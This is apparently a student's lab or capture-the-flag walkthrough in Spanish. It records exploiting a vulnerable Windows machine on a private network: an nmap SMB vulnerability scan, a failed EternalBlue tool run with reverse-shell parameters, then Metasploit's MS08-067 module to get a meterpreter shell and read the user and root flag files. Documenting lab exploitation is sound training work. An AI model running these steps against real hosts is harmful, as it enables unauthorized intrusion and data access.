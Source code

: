 
IP local: 10.0.22.4
IP remota: 10.0.22.6
***Abrimos consola***
- netdiscover -r 10.0.22.0/24
	- *Descubrimos que ip sale que no es usual*	
- nmap -p445 --script="smb-vuln-*" 10.0.22.6

- **PROBAMOS EL WIN7BLUE**
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: (Ip remota u del objeto)
- ./Win7Blue
	- $: **4** (o 3, dependiendo de la arquitectura del sistema)
	- RHOST: (ip remota u objetivo)
	- LHOST(ip local, ya sea kali o host usado)
	- LPORT: (puerto en escucha de la consola abierta)
	- *Darle a enter*
- Vemos que no funciona este método, así que recurrimos al otro con el metasploit:


- Buscamos la vulnerabilidad con el comando nmap:
- nmap -p445 --script="smb-vuln-*" 10.0.22.6
- ![[Pasted image 20241009183909.png]]
- searchsploit MS08-067
- ![[Pasted image 20241009183946.png]]
- msfconsole
- search MS08-067
- use 0
- show options
- ![[Pasted image 20241009184040.png]]
-  set rhosts 10.0.22.6
- show options
- ![[Pasted image 20241009184121.png]]
- Exploit:
	- En este caso, no funciona ya que no se puede llegar, así que se hará una modificación de los puertos locales:
	- ![[Pasted image 20241009184247.png]]
- Exploit:
	- De nuevo no funciona, así que le cambiamos de nuevo el puerto:
	- ![[Pasted image 20241009184353.png]]
- Exploit
	- En este caso, ya ha funcionado.
- *Cuando sale el meterpreter:*
- shell
- **En este momento, ya hemos entrado al shell de la máquina vulnerable**
- dir
- dir C:\\![[Pasted image 20241009184547.png]]
- cd C:\\Documents and Settings
- dir C:\\Documents and Settings![[Pasted image 20241009184616.png]]
- cd C:\\Documents and Settings\\bill
- dir C:\\Documents and Settings\\bill![[Pasted image 20241009184654.png]]
- C:\\Documents and Settings\\bill\\Desktop![[Pasted image 20241009184712.png]]
- type root.txt
- type user.txt
- ![[Pasted image 20241009184745.png]]



